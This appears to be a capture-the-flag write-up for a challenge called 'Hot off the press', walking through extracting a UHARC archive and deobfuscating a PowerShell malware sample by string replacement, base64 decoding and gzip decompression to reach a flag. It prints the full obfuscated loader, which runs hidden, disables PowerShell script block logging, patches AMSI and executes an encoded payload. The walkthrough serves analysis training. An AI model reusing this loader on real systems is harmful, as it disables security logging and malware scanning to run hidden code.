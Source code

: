 # Hot off the press

## Oh wow, a malware analyst shared a sample that I read about in the news! But it looks like they put it in some weird kind of archive...? Anyway, the password should be `infected` as usual!

A file is attached to the challenge.

---

Download the file. 

But... This is a weird file.. What kind is this ?

### uha file

A UHA file is an archive, you need [a specific tool](https://sam.gleske.net/uharc/) to decompress the archive. 

Put the UHARCD executable in the same folder as the archive and use this command, the pwd is in the challenge context

`.\uharc.exe e -pw .\hot_off_the_press`



![Alt text](image.png)


A wild powershell script appears.


### Powershell script

As you can see, the code is well obfuscated and honestly a pain in the ass to read

> ```powershell

C:\Windows\SysWOW64\cmd.exe /c powershell.exe -nop -w hidden -noni -c if([IntPtr]::Size -eq 4){$b=$env:windir+'\sysnative\WindowsPowerShell\v1.0\powershell.exe'}else{$b='powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c $x_wa3=((''Sc''+''{2}i''+''pt{1}loc{0}Logg''+''in''+''g'')-f''k'',''B'',''r'');If($PSVersionTable.PSVersion.Major -ge 3){ $sw=((''E''+''nable{3}''+''c{''+''1}''+''ip{0}Bloc{2}Logging''+'''')-f''t'',''r'',''k'',''S''); $p8=[Collections.Generic.Dictionary[string,System.Object]]::new(); $gG0=((''Ena''+''ble{2}c{5}i{3}t{''+''4}loc''+''{0}{1}''+''nv''+''o''+''cationLoggi''+''ng'')-f''k'',''I'',''S'',''p'',''B'',''r''); $jXZ4D=[Ref].Assembly.GetType(((''{0}y''+''s''+''tem.{1}a''+''n''+''a{4}ement.A{5}t''+''omati''+''on.{2''+''}ti{3}s'')-f''S'',''M'',''U'',''l'',''g'',''u'')); $plhF=[Ref].Assembly.GetType(((''{''+''6}{''+''5}stem.''+''{''+''3''+''}{9}''+''n{9}{''+''2}ement''+''.{''+''8}{''+''4}t{''+''7''+''}''+''m{9}ti{7}n''+''.''+''{8''+''}''+''m''+''si{0''+''}ti{''+''1}s'')-f''U'',''l'',''g'',''M'',''u'',''y'',''S'',''o'',''A'',''a'')); if ($plhF) { $plhF.GetField(((''''+''a{''+''0}''+''si{4}''+''nit{''+''1}''+''ai''+''l{2}{''+''3}'')-f''m'',''F'',''e'',''d'',''I''),''NonPublic,Static'').SetValue($null,$true); }; $lCj=$jXZ4D.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($lCj) { $a938=$lCj.GetValue($null); If($a938[$x_wa3]){ $a938[$x_wa3][$sw]=0; $a938[$x_wa3][$gG0]=0; } $p8.Add($gG0,0); $p8.Add($sw,0); $a938[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$x_wa3]=$p8; } Else { [Ref].Assembly.GetType(((''S{2}{3}''+''t''+''em''+''.Mana''+''ge''+''ment.{''+''5}{4}to''+''mation.Scr''+''ipt{1}loc{0}'')-f''k'',''B'',''y'',''s'',''u'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sI''+''AIeJ''+''G2UC/+1X''+''bU/jOBD+3l9hrS''+''IlkU{0}''+''VFvb{1}IiFdWqD''+''bPRJKS8vR''+''brUKy''+''TR168TFcQplb//7''+''jfNSygJ73{1}lI94F''+''IVvwyMx4/M''+''7YfT9PYl5TH''+''hH7sku8VUnxd''+''T3gRMTT/ku''+''/fWUSjS3Mzp''+''oX7zCWHxBjby+UR''+''jzwaTw4OWq''+''kQ{1}M''+''u8XW2''+''DtJM{1}''+''omtGI''+''TFM8he5nIGAnbP''+''rOfiSf''+''Cfat2qb8W''+''uPFW{0}rlufP''+''gOzYcaD''+''GTrnvKbeq/''+''SWj0tC/ftXN8U5''+''9Uj2+ST2''+''WGHp/nUiIqgFjuk''+''l+mGrCi/USDN2''+''hvuAJn8rqJY''+''13G9VBn''+''HhTcNHa''+''ChyQMx4''+''kul''+''nZ{0}{1}a''+''AT{1}Wcr0kZyUUMHa''+''tdwX0''+''7CAQkiW6RsTI''+''/nkx+N8bF''+''3{0}00''+''ljS''+''CaieWIPiyD''+''2JFfUiq''+''n704YNC''+''D6QS1+l{0}Q''+''OJyYJoq''+''t+AIM{0}U4Zs8''+''i/MWO4c''+''Fsi91olY1sJpbpS''+''mBYG''+''9Jl1OjxIG''+''eSa+jOO''+''5kl''+''g4pcngl''+''n5UalMy7''+''yJvPq''+''3o6eZs2mX''+''3zgbAHTX6PK''+''{1}Zr''+''qHp''+''GYRBy''+''f2JBdrbGoXIgVz''+''sgGbaNGe/Yf''+''1SmP1UhP1V''+''u0U''+''e8ZDToP''+''JRn0r''+''7tr0pj38q{1}''+''ReTuIjmNI''+''YjtaxF1G/''+''zFPjuWjAl{1}{1}GR''+''7UUc9{1}9Qy8''+''GIDgCB''+''q{1}nFb4qKZ6oHU''+''dUbnSbKWUB''+''CNvHiCb''+''oFQbbfO''+''xMHjJD78QORAhd3''+''sYs''+''1aa4O6''+''CU{0}nb''+''{1}upxdtVFIbz{1}v''+''SSzSTXF7+hbpg8c''+''gsIgdJ7QYs''+''lPJs6r+4K6T''+''Mkl9{0}5Glu''+''Yn5{1}5zFtC''+''0eJ1KkPgYVIbj''+''o{0}8''+''GnHlOIWO''+''QzDaC57''+''tOwnF5/Fo+Wxx''+''juG7S0wnhgj8''+''Kh{0}1Wq''+''CPQ0Swuz2g''+''fZiZYMIpTJjosT5''+''oV4''+''OBS7I''+''8st{0}4RAf8HRc''+''hPkGa+Q''+''KSHZchP''+''D3WdcWmRIhcTDR6''+''GM2fVfnHhy''+''6uTOtAQ''+''UwTGyvTVur''+''qXKfi0+P''+''W8sVI4WAGVwCI''+''lQn''+''AgeNb0{1}ftv{0}Dxjj''+''Q6dlh+/lvbyX''+''9/K/{0}22X+XG''+''vHr''+''RZ0mnV635''+''0N7''+''+6d''+''Pmob8sR''+''bf{0}gc+/2j''+''O6vT''+''ufHt856786''+''dO6lz{1}e5i''+''e302D2/PjuxV''+''tzFMr''+''xqfFqP{0}3nQU3''+''c1G''+''9zXmzq+''+''YGzn4P8b''+''iM7f''+''Rwf85lk''+''4+Nh8w5''+''36Q1Z17P6vn7''+''WP8h1gW2R/n+0''+''m2g8UuZ''+''M{0}M3kN7UYyHh''+''T17M5+aw22''+''ch1+GvZO{0}oc3+bF''+''+FX2jz''+''PmifrIOWvTq''+''nNhse''+''D91Ba+iPwsPD''+''D2ZlPKCx3G1M1{1}W''+''+qwhS''+''RWP+p/''+''2tS+Al6''+''ud4''+''Ipl5DC8H5HTl''+''FX3C''+''xUnB1{0}qcKg3DU''+''{1}x/''+''ASIGhvQYCXR5sd''+''mMcV+RxJzSIUP''+''NeaOisYNO''+''5tVzNZNsBM0''+''H9lh2HRyM''+''0{1}u8{0}{0}O7rH''+''oKcShnVu1ut1ZD''+''7le7q+3htfj6''+''pbX4cm3ktix''+''FHjNwNtZZZt2s''+''0CkxjDfHC9''+''8H{1}unK{0}xB7C''+''Tyce''+''4H0AvlOfukrCJ''+''ucs20A''+''i5Vt8''+''u{1}R''+''fghcHVc/Vq+''+''D{0}FPQxA7''+''c{1}{1}0q/rzFxrX0''+''+uz6TZOnIC8z/AX''+''/mDwPfb8YfVVC1a''+''wcoCfd''+''jzseiN/bIX''+''DpUYmCf''+''aRhDPKHwQtAFB''+''tmK8gqP{0}gbpsWn''+''Hspnq''+''dxx8''+''emlmODf2GZMc5''+''4PA''+''AA='')-f''L'',''E'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"]

```

The end of the file is pretty interesting, especially this part :

`New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream([System.Convert]::FromBase64String(((`

It means we have to decode from base64 then decompress from gzip.

If I do like said it leads to errors. I noticed another thing in the code:

> ```powershell

''H4sI''+''AIeJ''+''G2UC/+1X''+''bU/jOBD+3l9hrS''+''IlkU{0}''+''VFvb{1}IiFdWqD''+''bPRJKS8vR''+''brUKy''+''TR168TFcQplb//7''+''jfNSygJ73{1}lI94F''+''IVvwyMx4/M''+''7YfT9PYl5TH''+''hH7sku8VUnxd''+''T3gRMTT/ku''+''/fWUSjS3Mzp''+''oX7zCWHxBjby+UR''+''jzwaTw4OWq''+''kQ{1}M''+''u8XW2''+''DtJM{1}''+''omtGI''+''TFM8he5nIGAnbP''+''rOfiSf''+''Cfat2qb8W''+''uPFW{0}rlufP''+''gOzYcaD''+''GTrnvKbeq/''+''SWj0tC/ftXN8U5''+''9Uj2+ST2''+''WGHp/nUiIqgFjuk''+''l+mGrCi/USDN2''+''hvuAJn8rqJY''+''13G9VBn''+''HhTcNHa''+''ChyQMx4''+''kul''+''nZ{0}{1}a''+''AT{1}Wcr0kZyUUMHa''+''tdwX0''+''7CAQkiW6RsTI''+''/nkx+N8bF''+''3{0}00''+''ljS''+''CaieWIPiyD''+''2JFfUiq''+''n704YNC''+''D6QS1+l{0}Q''+''OJyYJoq''+''t+AIM{0}U4Zs8''+''i/MWO4c''+''Fsi91olY1sJpbpS''+''mBYG''+''9Jl1OjxIG''+''eSa+jOO''+''5kl''+''g4pcngl''+''n5UalMy7''+''yJvPq''+''3o6eZs2mX''+''3zgbAHTX6PK''+''{1}Zr''+''qHp''+''GYRBy''+''f2JBdrbGoXIgVz''+''sgGbaNGe/Yf''+''1SmP1UhP1V''+''u0U''+''e8ZDToP''+''JRn0r''+''7tr0pj38q{1}''+''ReTuIjmNI''+''YjtaxF1G/''+''zFPjuWjAl{1}{1}GR''+''7UUc9{1}9Qy8''+''GIDgCB''+''q{1}nFb4qKZ6oHU''+''dUbnSbKWUB''+''CNvHiCb''+''oFQbbfO''+''xMHjJD78QORAhd3''+''sYs''+''1aa4O6''+''CU{0}nb''+''{1}upxdtVFIbz{1}v''+''SSzSTXF7+hbpg8c''+''gsIgdJ7QYs''+''lPJs6r+4K6T''+''Mkl9{0}5Glu''+''Yn5{1}5zFtC''+''0eJ1KkPgYVIbj''+''o{0}8''+''GnHlOIWO''+''QzDaC57''+''tOwnF5/Fo+Wxx''+''juG7S0wnhgj8''+''Kh{0}1Wq''+''CPQ0Swuz2g''+''fZiZYMIpTJjosT5''+''oV4''+''OBS7I''+''8st{0}4RAf8HRc''+''hPkGa+Q''+''KSHZchP''+''D3WdcWmRIhcTDR6''+''GM2fVfnHhy''+''6uTOtAQ''+''UwTGyvTVur''+''qXKfi0+P''+''W8sVI4WAGVwCI''+''lQn''+''AgeNb0{1}ftv{0}Dxjj''+''Q6dlh+/lvbyX''+''9/K/{0}22X+XG''+''vHr''+''RZ0mnV635''+''0N7''+''+6d''+''Pmob8sR''+''bf{0}gc+/2j''+''O6vT''+''ufHt856786''+''dO6lz{1}e5i''+''e302D2/PjuxV''+''tzFMr''+''xqfFqP{0}3nQU3''+''c1G''+''9zXmzq+''+''YGzn4P8b''+''iM7f''+''Rwf85lk''+''4+Nh8w5''+''36Q1Z17P6vn7''+''WP8h1gW2R/n+0''+''m2g8UuZ''+''M{0}M3kN7UYyHh''+''T17M5+aw22''+''ch1+GvZO{0}oc3+bF''+''+FX2jz''+''PmifrIOWvTq''+''nNhse''+''D91Ba+iPwsPD''+''D2ZlPKCx3G1M1{1}W''+''+qwhS''+''RWP+p/''+''2tS+Al6''+''ud4''+''Ipl5DC8H5HTl''+''FX3C''+''xUnB1{0}qcKg3DU''+''{1}x/''+''ASIGhvQYCXR5sd''+''mMcV+RxJzSIUP''+''NeaOisYNO''+''5tVzNZNsBM0''+''H9lh2HRyM''+''0{1}u8{0}{0}O7rH''+''oKcShnVu1ut1ZD''+''7le7q+3htfj6''+''pbX4cm3ktix''+''FHjNwNtZZZt2s''+''0CkxjDfHC9''+''8H{1}unK{0}xB7C''+''Tyce''+''4H0AvlOfukrCJ''+''ucs20A''+''i5Vt8''+''u{1}R''+''fghcHVc/Vq+''+''D{0}FPQxA7''+''c{1}{1}0q/rzFxrX0''+''+uz6TZOnIC8z/AX''+''/mDwPfb8YfVVC1a''+''wcoCfd''+''jzseiN/bIX''+''DpUYmCf''+''aRhDPKHwQtAFB''+''tmK8gqP{0}gbpsWn''+''Hspnq''+''dxx8''+''emlmODf2GZMc5''+''4PA''+''AA='')-f''L'',''E''

```

1. The strings are concatenated ('+' between the strings) > it is a obfuscation technique
2. There are 2 variables inside the strings (`{0}` and `{1}`, at the end of the line we can see that `{0}` is "L" and `{1}` is "E")

So basically what we need to do there is:

1. Delete all the `''+''` concatenators
2. Replace `{0}` by ``L`` and `{1}` by ``E``
3. Base64 Decode all the String 
4. Gzip decompression

The output should be more code but this time we can see the flag url-encoded. One last step and it is done!
